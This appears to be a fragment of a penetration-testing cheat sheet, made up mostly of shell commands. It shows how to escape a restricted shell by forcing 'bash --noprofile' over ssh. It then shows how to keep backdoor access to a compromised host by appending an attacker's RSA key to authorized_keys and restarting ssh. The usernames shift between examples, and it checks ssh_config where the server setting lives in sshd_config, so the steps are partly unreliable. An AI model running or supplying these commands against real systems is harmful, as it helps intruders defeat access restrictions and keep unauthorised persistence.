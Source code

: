 ### SSH bypass

If connecting to the restricted shell via ssh, try this instead:

```
// Forces bash without any profile restrictions

link@kali:~$ ssh target@hacked -t "bash --noprofile"
```


## Attacker public RSA key access

```
hacked@target:~$ mkdir -p ~/.ssh
hacked@target:~$ chmod 700 ~/.ssh

hacked@target:~$ echo "ssh-rsa AAAB43NDhdfC6 ... DS5dJH45Sh== link@kali" >> ~/.ssh/authorized_keys

# Note, may need to check target SSH config
# Ensure PermitRootLogin yes is set if connecting as root
# PasswordAuthentication no to use key access only
hacked@target:~$ cat /etc/ssh/ssh_config

hacked@target:~$ sudo systemctl restart ssh

link@kali:~$ ssh victim@target_ip
```